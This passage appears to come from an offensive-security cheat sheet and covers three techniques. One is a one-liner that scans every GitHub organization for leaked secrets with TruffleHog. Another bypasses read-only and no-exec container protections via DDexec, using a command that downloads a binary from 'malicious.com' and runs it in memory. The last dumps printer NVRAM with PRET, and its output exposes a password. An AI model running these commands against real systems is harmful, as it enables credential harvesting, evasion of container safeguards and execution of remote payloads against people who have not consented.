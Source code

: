 ## TruffleHog GitHub Organizations

Enumerate GitHub organizations for secrets and credentials

```console
root@RoseSecurity# orgs=$(curl -s https://api.github.com/organizations | jq -r '.[] | .name'); for i in $orgs; do trufflehog github --org=$i; done
```

## Bypass File System Protections (Read-Only and No-Exec) for Containers

It's increasingly common to find Linux machines mounted with read-only (ro) file system protection, especially in containers. This is because running a container with `ro` file system is as easy as setting `readOnlyRootFilesystem: true` in the `securitycontext`:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: victim-pod
spec:
  containers:
  - name: alpine 
    image: alpine
    securityContext:
      readOnlyRootFilesystem: true
    command: ["sh", "-c", "while true; do echo 'RoseSecurity FTW'; done"]
```

However, even if the file system is mounted as `ro`, /dev/shm will still be writable, so it's fake we cannot write anything on the disk. However, this folder will be mounted with `no-exec` protection, so if you download a binary here you won't be able to execute it.

[DDexec](https://github.com/arget13/DDexec) is a technique that allows you to modify the memory of your own process by overwriting its /proc/self/mem.

```
# Example
wget -O- https://malicious.com/hacked.elf | base64 -w0 | bash ddexec.sh argv0 phone home
```

## Dumping Printer NVRAM

You can dump the NVRAM and extract confidential info (as passwords) by accessing arbitrary addresses using PJL:

```
# Using PRET
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> nvram dump
Writing copy to nvram/printer
................................................................................
................................................................................
............................................S3cretPassw0rd......................
................................................................................
```
